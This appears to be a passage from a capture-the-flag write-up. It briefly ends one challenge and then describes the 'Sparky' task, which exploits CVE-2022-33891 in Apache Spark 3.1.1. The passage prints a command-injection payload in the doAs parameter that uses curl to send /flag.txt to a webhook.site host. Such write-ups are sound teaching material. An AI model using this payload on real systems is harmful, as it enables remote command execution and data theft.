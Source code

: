 I compile it using `cargo` and get the flag!

![](/assets/img/uploads/20231027215059.png)

## Sparky 

### Description

Alright, sparky, here's another web application test for you. We're running this in prod, but we've given you a separate dev instance to test. No source code, no inside info. Just pwn and profit and tell us how you did it!  
  
The app is running Spark 3.1.1 which is vulnerable to CVE-2022-33891 which is caused when using a malicious username and sending it to the root app in the `doAs` parameter

![](/assets/img/uploads/20231028111235.png)

Using this [script](https://github.com/HuskyHacks/cve-2022-33891) I could understand what's going on and send the following payload and wait on `webhocks.site` to be reached out with the flag. The payload is:

```
http://challenge.ctf.games:31933/?doAs=`curl%20https://webhook.site/e2cacc1b-297f-4627-a6b5-4c17db349910?cmd=$(cat%20/flag.txt)`
```

A 403 error appears, but it's a good sign!

![](/assets/img/uploads/20231028111135.png)
